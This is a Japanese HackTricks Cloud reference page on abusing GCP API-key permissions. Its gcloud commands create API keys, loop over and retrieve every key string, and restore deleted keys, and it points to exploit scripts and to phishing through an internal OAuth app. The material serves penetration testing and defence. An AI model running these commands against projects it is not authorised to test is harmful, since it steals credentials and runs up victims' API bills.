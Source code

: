# GCP - Apikeys Privesc

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングテクニックを共有**してください。

</details>
{% endhint %}

## Apikeys

次の権限はAPIキーの作成と盗み出しに役立ちます。ドキュメントからの引用ではないことに注意してください: _APIキーは、**主体なしでアプリケーションを識別する**単純な暗号化された文字列です。これらは**公開データに匿名でアクセス**するために役立ち、クォータと**請求**のためにAPIリクエストをプロジェクトに**関連付ける**ために使用されます。_

したがって、APIキーを使用すると、その企業にAPIの使用料を支払わせることができますが、特権を昇格することはできません。

APIキーに関する詳細情報は次を確認してください:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

他の方法でAPIキーを作成する方法については次を確認してください:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

プロジェクトで有効になっているAPIや、見つけたAPIキーに適用される制限がわからない場合は、ツール[**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner)を実行して、**APIキーでアクセスできる内容を確認**すると良いでしょう。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

この権限は**APIキーを作成**することを許可します。
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
以下は、[**脆弱性環境の作成、悪用、およびクリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh)を見つけることができます。

{% hint style="danger" %}
デフォルトでは、ユーザーは新しいプロジェクトを作成する権限を持ち、新しいプロジェクトに対して所有者ロールが付与されます。そのため、ユーザーは**プロジェクトを作成し、このプロジェクト内にAPIキーを作成**することができます。
{% endhint %}

### `apikeys.keys.getKeyString`、`apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

これらの権限により、**すべてのAPIキーをリストおよび取得し、キーを取得**することができます。
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
以下は、[**脆弱性環境の作成、悪用、およびクリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)を見つけることができます。

### `apikeys.keys.undelete`、`apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

これらの権限を使用すると、**削除された API キーを一覧表示および再生成**することができます。**API キーは、**undelete**が完了した後の出力に表示されます：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### 内部OAuthアプリケーションを作成して他の従業員をフィッシングする

これを行う方法については、次のページを確認してくださいが、このアクションはサービス**`clientauthconfig`**に属しています[ドキュメントによると](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
